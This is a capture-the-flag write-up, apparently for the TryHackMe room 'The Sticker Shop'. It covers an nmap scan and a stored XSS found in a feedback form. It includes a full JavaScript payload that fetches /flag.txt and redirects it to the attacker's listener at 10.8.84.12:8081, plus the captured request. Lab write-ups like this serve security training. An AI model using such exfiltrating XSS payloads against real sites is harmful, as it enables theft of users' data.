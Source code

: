 # The Sticker Shop

## Overview

During this Capture the Flag (CTF) challenge, the goal was to exploit vulnerabilities in **The Sticker Shop** web application. The primary vulnerability identified was **Cross-Site Scripting (XSS)**, which allowed the injection of malicious scripts, ultimately leading to the extraction of the flag located at `/flag.txt`.

---

## Network Scan

### Nmap Scan

A network scan was performed on the target machine at IP `10.10.181.208` to gather information about open ports and services. The following results were obtained:

```txt
$ nmap -A 10.10.181.208

Nmap Scan Results for 10.10.181.208

Host is up (0.24s latency).

PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
8080/tcp open http-proxy Werkzeug/3.0.1 Python/3.8.10

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done at Thu Jul 10 23:55:20 2025 -- 1 IP address (1 host up) scanned in 143.61 seconds

```

The scan revealed two open ports:

- **Port 22**: SSH service
- **Port 8080**: HTTP proxy service running on **Werkzeug/3.0.1** and **Python/3.8.10**

## Website Interaction

Upon visiting `http://10.10.181.208:8080`, the homepage displayed two stickers and their respective prices.

![Homepage](./images/home.png)

Efforts to access the **flag** at `/flag.txt` returned a **401 Unauthorized** status, indicating that the flag was secured and could not be accessed directly.

![Unauthorized](./images/unauth.png)

---

## Feedback Form and XSS Testing

![feedback](./images/feedback.png)

The application features a feedback form that allows users to submit comments. To test for **Cross-Site Scripting (XSS)** vulnerabilities, a simple payload was injected:

```html
<img src="http://10.8.84.12:8081/test" />
```

This payload attempts to load an image from an external server, allowing for the detection of improper input handling.

A basic HTTP server was set up at http://10.8.84.12:8081 to monitor incoming requests:

```bash
python3 -m http.server 8081

10.10.181.208 - - [10/Jul/2025 13:52:30] "GET / HTTP/1.1" 200 -
10.10.181.208 - - [10/Jul/2025 13:52:41] "GET / HTTP/1.1" 200 -
```

This confirmed that the site was vulnerable to XSS, as the payload was executed and the request was made to the server.

## Exploiting XSS to Steal Flag

![xss](./images/query.png)

The input field was vulnerable to XSS, allowing the injection of a JavaScript payload to fetch the contents of the `/flag.txt` file. Since only GET requests were allowed, the flag could not be directly posted but could be fetched and sent via a redirect.

The following JavaScript payload was crafted:

```js
<script>
  fetch('/flag.txt').then(response=>response.text()) .then(data=>{' '}
  {
    (window.location.href =
      'http://10.8.84.12:8081/?flag' + encodeURIComponent(data))
  }
  )
</script>
```

This script makes a GET request to /flag.txt, retrieves the flag, and redirects to an external server (http://10.8.84.12:8081), appending the flag as a URL parameter.

The payload was submitted through the feedback form, and the following request was captured on the server:

```python
10.10.181.208 - - [10/Jul/2025 14:05:41] "GET /?flag=THM%7B83789a69074f6364a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
```
